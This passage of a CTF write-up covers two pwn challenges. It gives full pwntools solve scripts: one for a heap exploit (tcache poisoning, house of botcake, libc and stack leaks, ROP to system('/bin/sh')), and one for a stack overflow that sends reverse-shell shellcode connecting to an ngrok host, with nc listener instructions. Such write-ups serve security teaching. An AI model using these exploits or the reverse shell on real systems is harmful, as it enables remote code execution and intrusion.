    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Schematic NPC/washed/main'
#     Arch:       amd64-64-little
#     RELRO:      Full RELRO
#     Stack:      Canary found
#     NX:         NX enabled
#     PIE:        PIE enabled
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def menu(choice):
    sla(b">> ", se(choice))

def create_user(uid, age, name_bytes=b"\x00"*8):
    menu(1)
    sla(b"Enter ID: ", se(uid))
    sla(b"Enter Age: ", se(age))
    sa(b"Enter Name: ", name_bytes)
    rl()


def delete_user(idx):
    menu(2)
    sla(b"Enter user index to delete: ", se(idx))
    rl()

def list_users():
    menu(3)
    out = ru(b">> ", drop=False)
    log.info("\nLIST OUTPUT:\n" + out.decode(errors='ignore'))
    return out


def edit_user(idx, new_id, new_age, new_name=b"\x00"*8):
    menu(4)
    sla(b"Enter user index to edit: ", se(idx))
    sla(b"Enter new ID: ", se(new_id))
    sla(b"Enter new Age: ", se(new_age))
    sa(b"Enter new Name: ", new_name)
    rl()

def tcache_poison(idx, target, id, age, name):
    global heap
    create_user(idx, idx)
    create_user(idx + 1, idx + 1)
    delete_user(idx)
    delete_user(idx + 1)
    edit_user(idx + 1, mangle(heap, target), idx + 1)  # overwrite fd pointer
    create_user(idx + 2, idx + 2)
    debug()
    create_user(id, age, name) 

def house_of_botcake(idx, target, id, age, name, cheap=False):
    global heap
    if not cheap:
        for i in range(9):
            create_user(idx + i, idx + i, p64(heap >> 12))

    for i in range(9):
        delete_user(idx + i)
    delete_user(idx + i - 1)
    delete_user(idx + i)
    delete_user(idx + i - 1)
    for i in range(7):
        create_user(idx + i + 9, idx + i + 9, p64(heap >> 12))
    create_user(mangle(heap, target), idx + i + 9 + 1, p64(heap >> 12))
    create_user(idx + i + 9 + 2, idx + i + 9 + 2, p64(heap >> 12))
    create_user(idx + i + 9 + 3, idx + i + 9 + 3, p64(heap >> 12))
    create_user(id, age, name)

def ret2system():
    rop = ROP(libc)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()


def exploit(x):
    global io, heap
    io = initialize()
    # Code here ...
    with log.progress("Leaking heap"), context.silent:
        create_user(0, 0) # idx 0
        delete_user(0) # free to put in tcache
        menu(3)
        ru("ID: ")
        heap = int(ru(",")) << 12 # shift back to full addr
    leak("Heap base", hex(heap))
    with log.progress("Leaking libc"), context.silent:
        house_of_botcake(1, heap + 0x2a0 + 0x10, 0, 0x441, b"\x00"*8)
        for i in range(27):    
            create_user(0, 0)
        delete_user(2)
        menu(3)
        ru("2, ID: ")
        libc_leak = int(ru(","))
        libc.address = libc_leak - (libc.sym["main_arena"] + 96)
    leak("Libc leak", hex(libc_leak))
    with log.progress("Leaking stack"), context.silent:
        house_of_botcake(27, libc.sym["environ"] - 0x18, heap >> 12, heap >> 12, b"Z"*8, cheap=True)
        menu(3)
        ru("Z"*8)
        stack_leak = u64(rl().strip().ljust(8, b"\x00"))
        ret = stack_leak - 0x150
    leak("Stack leak", hex(stack_leak))
    leak("Return address", hex(ret))
    with log.progress("Preparing final exploit"), context.silent:
        delete_user(47) # Guard Chunk
        payload = ret2system()
        create_user(u64(payload[:8]), u64(payload[8:0x10]), payload[0x10:])  # UAF to the gueard chunk
        leave = nsa(libc, "leave; ret")
        tcache_poison(60, ret-8, heap + 0x700 - 8, leave, b"B"*8)

    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`SCH25{__💙__💙__💙__💙__💙__💙__💙__}`

# Pwn - asr

## Introduction 


## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>   // setuid

// Forward declarations
static int logMessage(const char *msg);
static int processData(const char *src);

static int logMessage(const char *msg)
{
    FILE *stream = fopen("/var/log/great_log.txt", "a");
    if (!stream)
        return puts("Failed to open log file.");

    fprintf(stream, "Log: %s\n", msg);
    return fclose(stream);
}

static int processData(const char *src)
{
    char dest[264];               // same size as original
    strcpy(dest, src);            // intentionally unsafe to preserve behavior
    printf("Data processed: %s\n", dest);
    return logMessage(dest);
}

int main(int argc, char **argv)
{
    setuid(0); // original code ignored errors; we do the same

    if (argc > 1) {
        const char *src = argv[1];
        puts("Processing data...");
        processData(src);
        return 0;
    } else {
        printf("Usage: %s <data>\n", argv[0]);
        return 1;
    }
}
```

## Summary

Buffer overflow and fill ret until near the stack input address on the stack after that add 1 pop ret to bypass fgets. Then, just create the shellcode for the reverse shell with connect and dupsh and send the payload in hex format.

## Solution

Given a dist.zip file, which when extracted, appears to be using Python Flask.


When reading app.py, the server hosts a binary and runs the binary with the input we provide to the web in hex format.
```python
@app.route("/", methods=["GET", "POST"])
def index():
    hex_value = ""
    decoded_preview = ""
    stdout = None
    stderr = None
    returncode = None

    if request.method == "POST":
        hex_value = (request.form.get("hex_value") or "").strip()

        if not hex_value:
            flash("Enter a hex-encoded argument.")
        else:
            try:
                decoded_bytes = bytes.fromhex(hex_value)
            except ValueError:
                flash("Invalid hex string: make sure it contains only hex characters and has even length.")
            else:
                decoded_preview = decoded_bytes.decode("utf-8", errors="replace")

                if not CHALL_PATH.exists():
                    flash(f"Challenge binary not found at {CHALL_PATH}.")
                else:
                    try:
                        completed = subprocess.run(
                            [str(CHALL_PATH), decoded_bytes],
                            capture_output=True,
                            text=False,
                            timeout=5,
                        )
                        stdout = completed.stdout
                        stderr = completed.stderr
                        returncode = completed.returncode
                    except UnicodeDecodeError:
                        flash("Decoded bytes contain embedded nulls which cannot be passed as argv.")
                    except ValueError:
                        flash("Decoded bytes contain embedded nulls which cannot be passed as argv.")
                    except subprocess.TimeoutExpired:
                        flash("Challenge timed out.")
                    except Exception as exc:
                        flash(f"Failed to execute challenge: {exc}.")

    return render_template(
        "index.html",
        hex_value=hex_value,
        decoded_preview=decoded_preview,
        stdout=stdout,
        stderr=stderr,
        returncode=returncode,
    )
```

Next, i immediately decompile the binary and see that the processData function has bof.

```c
static int processData(const char *src)
{
    char dest[264];               // same size as original
    strcpy(dest, src);            // intentionally unsafe to preserve behavior
    printf("Data processed: %s\n", dest);
    return logMessage(dest);
}

int main(int argc, char **argv)
{
    setuid(0); // original code ignored errors; we do the same

    if (argc > 1) {
        const char *src = argv[1];
        puts("Processing data...");
        processData(src);
        return 0;
    } else {
        printf("Usage: %s <data>\n", argv[0]);
        return 1;
    }
}
```
Furthermore, when checking the protection, nx disables, meaning our stack is executable. So, all that's left is to find the exploit.

Since the web is hosting a binary, we need to do a reverse shell because the program will have a different stack address when running. Now we can start by calculating the offset: 264 (array size) + 8 (rbp slot) = 272. For debugging, we can use pwntool gdb debug and break at processData+90.


Next to call the stack address input, we can use the input stack address on the stack by filling it with ret. Then using pop ret to bypass the null byte and return to the input stack address.


Finally, for the shellcode, we can use [shellcraft connect and dupsh](https://blingblingxuanxuan.github.io/2021/03/21/reverse-tcp/#connect-dupsh-%E5%8F%8D%E8%BF%9E). After connecting, we must first swap ebp with ebx because the binary used on i386 arg1 is in ebx, and when connecting, dupsh will mov ebx, ebp. So, we must move ebx (the value of our socket fd) to ebp and then continue with dupsh.


After that, just use ngrok tcp to publish our IP address and send the payload in hex.


Don't forget to nc -lnvp on localhost.


### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
try: elf = context.binary = ELF(exe, checksec=False)
except: elf = type('S',(),{'address':0})()
try: libc = elf.libc
except: libc = type('S',(),{'address':0})()
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]


gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
b *processData + 34
b *processData + 90
b *main + 137
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(input, argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("localhost", 5000) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + input + argv, gdbscript=gdbscript)
    else:
        return process([exe] + input + argv)

def execute(cmds, verbose=False):
    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Schematic NPC/asr/chall'
#     Arch:       i386-32-little
#     RELRO:      Partial RELRO
#     Stack:      No canary found
#     NX:         NX unknown - GNU_STACK missing
#     PIE:        No PIE (0x8048000)
#     Stack:      Executable
#     RWX:        Has RWX segments
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit(x):
    global io
    offset = 272
    assembly  = shellcraft.i386.linux.connect('0.tcp.ap.ngrok.io', 10406, 'ipv4')
    assembly += 'xchg ebp, ebx\n'
    assembly += shellcraft.i386.linux.dupsh()

    shellcode = asm(assembly)
    pop_ebx = nsa(elf, "pop ebx ; ret")
    input = shellcode.ljust(offset, b"\x90") + p32(elf.sym["_start"] + 44)*0x40 + p32(elf.sym["main"] + 137) + p32(pop_ebx)
    leak("Input hex", input.hex())
    # io = initialize([input])

    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        # io.close()
```

### Flag

`SCH25{i_am_out_of_ideas_for_a_chall_so_this_what_you_get_sry}`